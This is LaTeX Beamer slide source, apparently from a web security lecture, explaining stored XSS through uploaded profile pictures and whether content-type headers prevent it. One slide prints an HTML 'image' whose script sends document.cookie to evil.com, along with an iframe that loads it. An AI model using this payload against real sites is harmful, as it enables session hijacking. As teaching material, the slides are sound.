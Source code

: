 
\begin{frame}[fragile,label=xssUserContent]{XSS and user content}
    \begin{itemize}
    \item XSS makes hosting  really tricky
    \item example: allow users to upload profile pictures
    \item my ``profile picture'' is this ``image'' file:
\begin{verbatim}
<!DOCTYPE html>
<html><body><script>
var image = new Image();
image.src = "https://evil.com/?cookie=" + document.cookie;
</script></body></html>
\end{verbatim}
    \item then I have a webpage with:
\begin{verbatim}
<iframe src="https://example.com/get-picture?user=myusername">
\end{verbatim}
    \end{itemize}
\end{frame}

\begin{frame}{content-types to the rescue?}
    \begin{itemize}
        \item HTTP response headers include a 
        \begin{itemize}
            \item {} --- is HTML
            \item {} --- is PNG-format image
        \item \ldots
        \end{itemize}
    \item {} --- if server sends it
        \begin{itemize}
        \item browser should try to display HTML ``profile pic'' as image, not webpage
        \item \ldots even though iframe expects a webpage
        \end{itemize}
    \end{itemize}
\end{frame}

